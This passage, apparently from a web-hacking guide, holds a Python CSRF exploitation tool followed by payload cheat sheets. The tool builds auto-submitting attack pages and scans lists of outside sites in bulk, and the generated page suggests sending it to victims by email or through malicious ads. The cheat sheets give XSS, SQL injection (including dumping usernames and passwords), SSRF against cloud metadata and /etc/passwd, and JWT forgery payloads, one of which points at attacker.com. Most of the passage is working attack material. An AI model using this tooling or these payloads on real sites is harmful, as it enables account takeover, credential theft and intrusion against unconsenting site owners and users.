            return self.is_request_successful(response)
        except:
            return False
    
    def test_referer_validation(self, operation):
        """Test referer header validation"""
        try:
            data = self.prepare_request_data(operation)
            
            # Test with missing referer
            headers = {'Referer': ''}
            response1 = self.session.request(
                operation['method'],
                operation['action'],
                data=data,
                headers=headers,
                allow_redirects=False
            )
            
            # Test with malicious referer
            headers = {'Referer': 'http://attacker.com'}
            response2 = self.session.request(
                operation['method'],
                operation['action'],
                data=data,
                headers=headers,
                allow_redirects=False
            )
            
            return not (self.is_request_successful(response1) or self.is_request_successful(response2))
        except:
            return False
    
    def test_origin_validation(self, operation):
        """Test origin header validation"""
        try:
            data = self.prepare_request_data(operation)
            
            # Test with malicious origin
            headers = {'Origin': 'http://attacker.com'}
            response = self.session.request(
                operation['method'],
                operation['action'],
                data=data,
                headers=headers,
                allow_redirects=False
            )
            
            return not self.is_request_successful(response)
        except:
            return False
    
    def test_custom_headers(self, operation):
        """Test if custom headers are required"""
        try:
            data = self.prepare_request_data(operation)
            
            # Test without custom headers
            response1 = self.session.request(
                operation['method'],
                operation['action'],
                data=data,
                allow_redirects=False
            )
            
            # Test with X-Requested-With header
            headers = {'X-Requested-With': 'XMLHttpRequest'}
            response2 = self.session.request(
                operation['method'],
                operation['action'],
                data=data,
                headers=headers,
                allow_redirects=False
            )
            
            # If first request fails but second succeeds, custom headers are required
            return not self.is_request_successful(response1) and self.is_request_successful(response2)
        except:
            return False
    
    def generate_csrf_poc(self, operation, bypass_method=None):
        """Generate CSRF Proof of Concept"""
        if operation['method'] == 'GET':
            return self.generate_get_csrf_poc(operation)
        else:
            return self.generate_post_csrf_poc(operation, bypass_method)
    
    def generate_post_csrf_poc(self, operation, bypass_method=None):
        """Generate POST-based CSRF PoC"""
        form_fields = []
        
        for input_field in operation.get('inputs', []):
            if input_field['name']:
                value = input_field['value'] or 'csrf_test_value'
                
                # Handle CSRF token based on bypass method
                if input_field['type'] == 'hidden' and 'csrf' in input_field['name'].lower():
                    if bypass_method == 'remove_token':
                        continue  # Skip CSRF token
                    elif bypass_method == 'empty_token':
                        value = ''
                    elif bypass_method == 'invalid_token':
                        value = 'invalid_csrf_token'
                
                form_fields.append(f'    <input type="hidden" name="{input_field["name"]}" value="{value}">')
        
        poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Proof of Concept</title>
    <style>
        body {{ font-family: Arial, sans-serif; margin: 40px; }}
        .container {{ max-width: 800px; margin: 0 auto; }}
        .info {{ background: #f0f0f0; padding: 20px; margin: 20px 0; border-radius: 5px; }}
        .form-container {{ background: #fff; padding: 20px; border: 1px solid #ddd; border-radius: 5px; }}
        button {{ background: #007cba; color: white; padding: 10px 20px; border: none; border-radius: 3px; cursor: pointer; }}
        button:hover {{ background: #005a87; }}
    </style>
</head>
<body>
    <div class="container">
        <h1>🔒 CSRF Proof of Concept</h1>
        
        <div class="info">
            <h3>Attack Details</h3>
            <p><strong>Target:</strong> {operation['action']}</p>
            <p><strong>Method:</strong> {operation['method']}</p>
            <p><strong>Bypass Method:</strong> {bypass_method or 'Direct Attack'}</p>
        </div>
        
        <div class="form-container">
            <h3>Malicious Form</h3>
            <p>This form will automatically submit a CSRF attack when the page loads.</p>
            
            <form id="csrfForm" action="{operation['action']}" method="{operation['method']}">
{chr(10).join(form_fields)}
                <button type="submit">Execute CSRF Attack</button>
            </form>
        </div>
        
        <div class="info">
            <h3>Attack Scenarios</h3>
            <ul>
                <li>Send this page to a victim via email</li>
                <li>Host on attacker-controlled domain</li>
                <li>Embed in malicious advertisement</li>
                <li>Use in watering hole attack</li>
            </ul>
        </div>
    </div>
    
    <script>
        // Automatic form submission after page load
        document.addEventListener('DOMContentLoaded', function() {{
            console.log('CSRF PoC loaded - Auto-submitting in 3 seconds...');
            setTimeout(function() {{
                document.getElementById('csrfForm').submit();
            }}, 3000);
        }});
        
        // Manual execution function
        function executeCSRF() {{
            document.getElementById('csrfForm').submit();
        }}
    </script>
</body>
</html>
'''
        return poc_html
    
    def generate_ajax_csrf_poc(self, operation):
        """Generate AJAX-based CSRF PoC"""
        poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>CSRF PoC - AJAX Attack</title>
    <style>
        body {{ font-family: Arial, sans-serif; margin: 40px; }}
        .container {{ max-width: 800px; margin: 0 auto; }}
        .info {{ background: #f0f0f0; padding: 20px; margin: 20px 0; border-radius: 5px; }}
        button {{ background: #007cba; color: white; padding: 10px 20px; border: none; border-radius: 3px; cursor: pointer; margin: 5px; }}
        #results {{ background: #f9f9f9; padding: 15px; margin: 20px 0; border-radius: 5px; min-height: 100px; }}
    </style>
</head>
<body>
    <div class="container">
        <h1>🔒 AJAX CSRF Proof of Concept</h1>
        
        <div class="info">
            <h3>Target Information</h3>
            <p><strong>Endpoint:</strong> {operation['action']}</p>
            <p><strong>Method:</strong> {operation['method']}</p>
            <p><strong>Type:</strong> AJAX Request</p>
        </div>
        
        <div>
            <button onclick="executeCSRF_Fetch()">Execute CSRF (Fetch API)</button>
            <button onclick="executeCSRF_XHR()">Execute CSRF (XMLHttpRequest)</button>
            <button onclick="executeCSRF_Form()">Execute CSRF (Form Submission)</button>
        </div>
        
        <div id="results">
            <h4>Results will appear here...</h4>
        </div>
    </div>
    
    <script>
        function logResult(method, result) {{
            const resultsDiv = document.getElementById('results');
            const timestamp = new Date().toLocaleTimeString();
            resultsDiv.innerHTML += `<p><strong>[${{timestamp}}] ${{method}}:</strong> ${{result}}</p>`;
        }}
        
        // Method 1: Fetch API
        function executeCSRF_Fetch() {{
            fetch('{operation["action"]}', {{
                method: '{operation["method"]}',
                credentials: 'include',
                headers: {{
                    'Content-Type': 'application/x-www-form-urlencoded'
                }},
                body: 'action=csrf_test&value=malicious_value'
            }})
            .then(response => {{
                logResult('Fetch API', `Status: ${{response.status}} - ${{response.statusText}}`);
                return response.text();
            }})
            .then(data => {{
                logResult('Fetch API', `Response: ${{data.substring(0, 100)}}...`);
            }})
            .catch(error => {{
                logResult('Fetch API', `Error: ${{error}}`);
            }});
        }}
        
        // Method 2: XMLHttpRequest
        function executeCSRF_XHR() {{
            const xhr = new XMLHttpRequest();
            xhr.open('{operation["method"]}', '{operation["action"]}', true);
            xhr.withCredentials = true;
            xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
            
            xhr.onreadystatechange = function() {{
                if (xhr.readyState === 4) {{
                    logResult('XMLHttpRequest', `Status: ${{xhr.status}} - Response: ${{xhr.responseText.substring(0, 100)}}...`);
                }}
            }};
            
            xhr.onerror = function() {{
                logResult('XMLHttpRequest', 'Request failed');
            }};
            
            xhr.send('action=csrf_test&value=malicious_value');
        }}
        
        // Method 3: Dynamic Form Creation
        function executeCSRF_Form() {{
            const form = document.createElement('form');
            form.method = '{operation["method"]}';
            form.action = '{operation["action"]}';
            form.style.display = 'none';
            
            const input1 = document.createElement('input');
            input1.type = 'hidden';
            input1.name = 'action';
            input1.value = 'csrf_test';
            form.appendChild(input1);
            
            const input2 = document.createElement('input');
            input2.type = 'hidden';
            input2.name = 'value';
            input2.value = 'malicious_value';
            form.appendChild(input2);
            
            document.body.appendChild(form);
            form.submit();
            
            logResult('Dynamic Form', 'Form submitted successfully');
        }}
        
        // Automatic execution
        window.onload = function() {{
            setTimeout(function() {{
                logResult('Auto-execution', 'Starting automatic CSRF attack...');
                executeCSRF_Fetch();
            }}, 2000);
        }};
    </script>
</body>
</html>
'''
        return poc_html
    
    def advanced_csrf_bypass_techniques(self, operation):
        """Advanced CSRF bypass techniques"""
        bypass_techniques = []
        
        # Technique 1: Content-Type manipulation
        bypass_techniques.append({
            'name': 'Content-Type Bypass',
            'description': 'Change Content-Type to bypass CSRF protection',
            'poc': self.generate_content_type_bypass_poc(operation)
        })
        
        # Technique 2: Method override
        bypass_techniques.append({
            'name': 'HTTP Method Override',
            'description': 'Use method override headers',
            'poc': self.generate_method_override_poc(operation)
        })
        
        # Technique 3: Referer bypass
        bypass_techniques.append({
            'name': 'Referer Header Bypass',
            'description': 'Bypass referer validation using various techniques',
            'poc': self.generate_referer_bypass_poc(operation)
        })
        
        # Technique 4: SameSite bypass
        bypass_techniques.append({
            'name': 'SameSite Cookie Bypass',
            'description': 'Bypass SameSite cookie protection',
            'poc': self.generate_samesite_bypass_poc(operation)
        })
        
        # Technique 5: Double Submit Cookie bypass
        bypass_techniques.append({
            'name': 'Double Submit Cookie Bypass',
            'description': 'Bypass double submit cookie protection',
            'poc': self.generate_double_submit_bypass_poc(operation)
        })
        
        return bypass_techniques
    
    def prepare_request_data(self, operation, include_token=True, token_value=None):
        """Prepare request data for testing"""
        data = {}
        
        for input_field in operation.get('inputs', []):
            if input_field['name']:
                if input_field['type'] == 'hidden' and 'csrf' in input_field['name'].lower():
                    if include_token:
                        data[input_field['name']] = token_value or input_field['value']
                else:
                    data[input_field['name']] = input_field['value'] or 'test_value'
        
        return data
    
    def is_request_successful(self, response):
        """Determine if request was successful"""
        if not response:
            return False
        
        # Consider 2xx and 3xx as successful
        if 200 <= response.status_code < 400:
            return True
        
        # Check for specific success indicators in response
        success_indicators = [
            'success', 'updated', 'saved', 'created', 'deleted',
            'thank you', 'completed', 'processed'
        ]
        
        response_text = response.text.lower()
        return any(indicator in response_text for indicator in success_indicators)
    
    def comprehensive_csrf_assessment(self):
        """Run comprehensive CSRF assessment"""
        print("[*] Starting comprehensive CSRF assessment...")
        
        # Discover operations
        operations = self.discover_state_changing_operations()
        print(f"[*] Found {len(operations)} state-changing operations")
        
        assessment_results = []
        
        for operation in operations:
            print(f"[*] Testing operation: {operation['action']}")
            
            # Analyze protection mechanisms
            protection = self.analyze_csrf_protection(operation)
            
            # Test for vulnerabilities
            vulnerabilities = []
            
            # Test basic CSRF
            if not protection['csrf_token']:
                vulnerabilities.append('no_csrf_protection')
                print(f"[+] No CSRF protection found")
            
            # Test token bypass
            if protection['csrf_token'] and protection.get('token_strength') in ['weak_no_validation', 'weak_basic_validation']:
                vulnerabilities.append('weak_token_validation')
                print(f"[+] Weak token validation found")
            
            # Test SameSite bypass
            if not protection['samesite_cookie']:
                vulnerabilities.append('no_samesite_protection')
                print(f"[+] No SameSite protection found")
            
            # Test referer bypass
            if not protection['referer_validation']:
                vulnerabilities.append('no_referer_validation')
                print(f"[+] No referer validation found")
            
            # Generate PoCs for vulnerabilities
            pocs = []
            if vulnerabilities:
                for vuln in vulnerabilities:
                    if vuln == 'no_csrf_protection':
                        poc = self.generate_csrf_poc(operation)
                        pocs.append({'type': 'basic_csrf', 'poc': poc})
                    elif vuln == 'weak_token_validation':
                        poc = self.generate_csrf_poc(operation, 'remove_token')
                        pocs.append({'type': 'token_bypass', 'poc': poc})
                
                # Generate advanced bypass techniques
                bypass_techniques = self.advanced_csrf_bypass_techniques(operation)
                pocs.extend([{'type': 'advanced_bypass', 'technique': tech} for tech in bypass_techniques])
            
            assessment_results.append({
                'operation': operation,
                'protection': protection,
                'vulnerabilities': vulnerabilities,
                'pocs': pocs,
                'risk_level': self.calculate_risk_level(vulnerabilities, operation)
            })
        
        return {
            'target': self.target_url,
            'assessment_date': time.strftime('%Y-%m-%d %H:%M:%S'),
            'total_operations': len(operations),
            'vulnerable_operations': len([r for r in assessment_results if r['vulnerabilities']]),
            'results': assessment_results,
            'summary': self.generate_assessment_summary(assessment_results),
            'recommendations': self.generate_csrf_recommendations(assessment_results)
        }
    
    def calculate_risk_level(self, vulnerabilities, operation):
        """Calculate risk level based on vulnerabilities and operation type"""
        if not vulnerabilities:
            return 'Low'
        
        # High risk operations
        high_risk_indicators = ['admin', 'delete', 'transfer', 'payment', 'password', 'email']
        operation_url = operation['action'].lower()
        
        if any(indicator in operation_url for indicator in high_risk_indicators):
            return 'Critical'
        
        if 'no_csrf_protection' in vulnerabilities:
            return 'High'
        elif 'weak_token_validation' in vulnerabilities:
            return 'Medium'
        else:
            return 'Low'
    
    def generate_assessment_summary(self, results):
        """Generate assessment summary"""
        summary = {
            'critical_findings': 0,
            'high_findings': 0,
            'medium_findings': 0,
            'low_findings': 0,
            'most_common_vulnerabilities': {},
            'protection_mechanisms': {
                'csrf_tokens': 0,
                'samesite_cookies': 0,
                'referer_validation': 0,
                'custom_headers': 0
            }
        }
        
        for result in results:
            # Count risk levels
            risk_level = result['risk_level'].lower()
            if risk_level in summary:
                summary[f'{risk_level}_findings'] += 1
            
            # Count vulnerabilities
            for vuln in result['vulnerabilities']:
                summary['most_common_vulnerabilities'][vuln] = summary['most_common_vulnerabilities'].get(vuln, 0) + 1
            
            # Count protection mechanisms
            protection = result['protection']
            if protection['csrf_token']:
                summary['protection_mechanisms']['csrf_tokens'] += 1
            if protection['samesite_cookie']:
                summary['protection_mechanisms']['samesite_cookies'] += 1
            if protection['referer_validation']:
                summary['protection_mechanisms']['referer_validation'] += 1
            if protection['custom_headers']:
                summary['protection_mechanisms']['custom_headers'] += 1
        
        return summary
    
    def generate_csrf_recommendations(self, results):
        """Generate CSRF security recommendations"""
        recommendations = [
            "Implement CSRF tokens for all state-changing operations",
            "Use SameSite=Strict cookie attribute for session cookies",
            "Validate Referer and Origin headers for sensitive operations",
            "Implement double-submit cookie pattern as additional protection",
            "Use custom headers (X-Requested-With) for AJAX requests",
            "Implement proper session management and timeout",
            "Regular security testing and code review",
            "User education about phishing and social engineering",
            "Implement Content Security Policy (CSP)",
            "Use HTTPS for all authenticated sessions"
        ]
        
        # Add specific recommendations based on findings
        common_vulns = {}
        for result in results:
            for vuln in result['vulnerabilities']:
                common_vulns[vuln] = common_vulns.get(vuln, 0) + 1
        
        if common_vulns.get('no_csrf_protection', 0) > 0:
            recommendations.insert(0, "URGENT: Implement CSRF protection immediately - no protection detected")
        
        if common_vulns.get('weak_token_validation', 0) > 0:
            recommendations.insert(1, "IMPORTANT: Strengthen CSRF token validation logic")
        
        return recommendations

# CSRF Testing Automation
class CSRFTestSuite:
    def __init__(self, target_list):
        self.targets = target_list
        self.results = []
        
    def run_mass_csrf_testing(self):
        """Run mass CSRF testing across multiple targets"""
        print(f"[*] Starting mass CSRF testing on {len(self.targets)} targets")
        
        with ThreadPoolExecutor(max_workers=5) as executor:
            futures = []
            
            for target in self.targets:
                exploiter = AdvancedCSRFExploiter(target['url'])
                future = executor.submit(exploiter.comprehensive_csrf_assessment)
                futures.append((target, future))
            
            for target, future in futures:
                try:
                    result = future.result(timeout=300)  # 5 minute timeout
                    if result['vulnerable_operations'] > 0:
                        self.results.append(result)
                        print(f"[+] CSRF vulnerabilities found in {target['url']}")
                except Exception as e:
                    print(f"[!] Error testing {target['url']}: {e}")
        
        return self.compile_mass_report()
    
    def compile_mass_report(self):
        """Compile mass testing report"""
        return {
            'total_targets_tested': len(self.targets),
            'vulnerable_targets': len(self.results),
            'total_vulnerabilities': sum(r['vulnerable_operations'] for r in self.results),
            'risk_distribution': self.analyze_risk_distribution(),
            'common_vulnerabilities': self.analyze_common_vulnerabilities(),
            'detailed_results': self.results
        }
    
    def analyze_risk_distribution(self):
        """Analyze risk distribution across findings"""
        risk_dist = {'Critical': 0, 'High': 0, 'Medium': 0, 'Low': 0}
        
        for result in self.results:
            for finding in result['results']:
                risk_level = finding['risk_level']
                risk_dist[risk_level] = risk_dist.get(risk_level, 0) + 1
        
        return risk_dist
    
    def analyze_common_vulnerabilities(self):
        """Analyze most common vulnerabilities"""
        vuln_counts = {}
        
        for result in self.results:
            for finding in result['results']:
                for vuln in finding['vulnerabilities']:
                    vuln_counts[vuln] = vuln_counts.get(vuln, 0) + 1
        
        return sorted(vuln_counts.items(), key=lambda x: x[1], reverse=True)

# Usage Example
if __name__ == "__main__":
    # Single target CSRF testing
    exploiter = AdvancedCSRFExploiter("https://vulnerable-site.com/dashboard")
    
    # Set session cookies if needed
    exploiter.session.cookies.update({'session_id': 'your_session_cookie'})
    
    # Run comprehensive assessment
    results = exploiter.comprehensive_csrf_assessment()
    
    print(f"\nCSRF Assessment Results:")
    print(f"Total operations tested: {results['total_operations']}")
    print(f"Vulnerable operations: {results['vulnerable_operations']}")
    print(f"Critical findings: {results['summary']['critical_findings']}")
    print(f"High findings: {results['summary']['high_findings']}")
    
    # Save results
    with open('csrf_assessment_results.json', 'w') as f:
        json.dump(results, f, indent=2)
    
    # Generate PoCs for vulnerable operations
    for i, result in enumerate(results['results']):
        if result['vulnerabilities']:
            for j, poc in enumerate(result['pocs']):
                filename = f"csrf_poc_{i}_{j}.html"
                with open(filename, 'w') as f:
                    f.write(poc['poc'])
                print(f"Generated PoC: {filename}")
    
    # Mass testing example
    targets = [
        {'url': 'https://site1.com/admin'},
        {'url': 'https://site2.com/dashboard'},
        {'url': 'https://site3.com/profile'}
    ]
    
    test_suite = CSRFTestSuite(targets)
    mass_results = test_suite.run_mass_csrf_testing()
    
    print(f"\nMass CSRF Testing Results:")
    print(f"Targets tested: {mass_results['total_targets_tested']}")
    print(f"Vulnerable targets: {mass_results['vulnerable_targets']}")
    print(f"Total vulnerabilities: {mass_results['total_vulnerabilities']}")
```
    B --> C[Test Basic Payloads]
    C --> D{Payload Executed?}
    D -->|Yes| E[Confirm XSS Vulnerability]
    D -->|No| F[Try Advanced Payloads]
    F --> G{WAF/Filter Present?}
    G -->|Yes| H[Bypass Techniques]
    G -->|No| I[Test Different Contexts]
    H --> J{Bypass Successful?}
    J -->|Yes| E
    J -->|No| K[Document Findings]
    I --> L{Context Vulnerable?}
    L -->|Yes| E
    L -->|No| K
    E --> M[Exploit Development]
    M --> N[Impact Assessment]
    N --> O[Report Generation]
    K --> O
```

### Common XSS Payloads

```javascript
// Basic XSS
<script>alert('XSS')</script>

// Event-based XSS


// JavaScript URL
javascript:alert('XSS')

// SVG XSS
<svg onload=alert('XSS')>

// Bypass Filters
<ScRiPt>alert('XSS')</ScRiPt>
```

### XSS Testing Methodology

1. **Input Identification**
   - Form fields
   - URL parameters
   - HTTP headers
   - Cookie values

2. **Payload Testing**
   - Basic script tags
   - Event handlers
   - JavaScript URLs
   - Data URIs

3. **Context Analysis**
   - HTML context
   - Attribute context
   - JavaScript context
   - CSS context

---

## 🔒 CSRF (Cross-Site Request Forgery)

### Overview
CSRF attacks force authenticated users to execute unwanted actions on web applications where they're authenticated.

### CSRF Attack Flowchart



### CSRF Attack Examples

```html
<!-- GET-based CSRF -->


<!-- POST-based CSRF -->
<form action="http://vulnerable-site.com/transfer" method="POST">
    <input type="hidden" name="amount" value="1000" />
    <input type="hidden" name="to" value="attacker" />
    <input type="submit" value="Click me!" />
</form>

<!-- JavaScript CSRF -->
<script>
fetch('http://vulnerable-site.com/api/transfer', {
    method: 'POST',
    credentials: 'include',
    body: JSON.stringify({amount: 1000, to: 'attacker'}),
    headers: {'Content-Type': 'application/json'}
});
</script>
```

---

## 💉 SQL Injection

### Overview
SQL Injection occurs when user input is improperly sanitized and directly concatenated into SQL queries.

### SQL Injection Types

1. **Classic SQL Injection**
2. **Blind SQL Injection**
3. **Time-based Blind SQL Injection**
4. **Union-based SQL Injection**
5. **Error-based SQL Injection**

### SQL Injection Attack Flowchart



### Common SQL Injection Payloads

```sql
-- Basic Authentication Bypass
' OR '1'='1' --
' OR 1=1 --
admin'--

-- Union-based Injection
' UNION SELECT 1,2,3,4 --
' UNION SELECT null,username,password,null FROM users --

-- Error-based Injection
' AND (SELECT COUNT(*) FROM information_schema.tables) --
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e)) --

-- Time-based Blind Injection
' AND (SELECT SLEEP(5)) --
'; WAITFOR DELAY '00:00:05' --

-- Boolean-based Blind Injection
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
```

---

## 🌐 SSRF (Server-Side Request Forgery)

### Overview
SSRF vulnerabilities allow attackers to make requests from the vulnerable server to internal or external resources.

### SSRF Attack Flowchart



### SSRF Payloads

```
# Internal Network Scanning
http://127.0.0.1:80
http://localhost:22
http://192.168.1.1:80
http://10.0.0.1:3306

# Cloud Metadata
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/

# Protocol Variations
file:///etc/passwd
gopher://127.0.0.1:6379/_INFO
dict://127.0.0.1:11211/stats

# Bypass Techniques
http://127.1:80
http://0x7f000001:80
http://2130706433:80
```

---

## 📁 Directory Brute Force

### Overview
Directory brute force attacks attempt to discover hidden directories and files on web servers.

### Directory Brute Force Flowchart



### Directory Brute Force Tools & Wordlists

```bash
# Common Tools
gobuster dir -u http://target.com -w /path/to/wordlist
dirb http://target.com /path/to/wordlist
dirsearch -u http://target.com -w /path/to/wordlist

# Common Directories
/admin
/backup
/config
/database
/logs
/test
/dev
/api
/uploads
/.git
```

---

## 🔑 JWT Token Misconfigurations

### Overview
JSON Web Tokens (JWT) vulnerabilities arise from improper implementation, weak secrets, or algorithm confusion.

### JWT Attack Flowchart



### JWT Attack Techniques

```javascript
// None Algorithm Attack
{
  "alg": "none",
  "typ": "JWT"
}

// Algorithm Confusion (RS256 to HS256)
// Use public key as HMAC secret

// Weak Secret Brute Force
const secrets = ['secret', '123456', 'password', 'jwt_secret'];

// JKU Header Manipulation
{
  "alg": "RS256",
  "jku": "http://attacker.com/jwks.json"
}

// Kid Parameter Injection
{
  "alg": "HS256",
  "kid": "../../../public/key.pem"
}
```

---

## 🔧 Additional Attack Vectors

### Command Injection



### File Upload Vulnerabilities



---

## 🧪 Testing Methodology

### 1. Reconnaissance Phase


### 2. Vulnerability Assessment


### 3. Exploitation Phase


### 4. Post-Exploitation


---

## 🛠️ Tools & Resources

### Automated Scanners
- **OWASP ZAP** - Web application security scanner
- **Burp Suite** - Web vulnerability scanner
- **Nikto** - Web server scanner
- **SQLMap** - SQL injection tool

### Manual Testing Tools
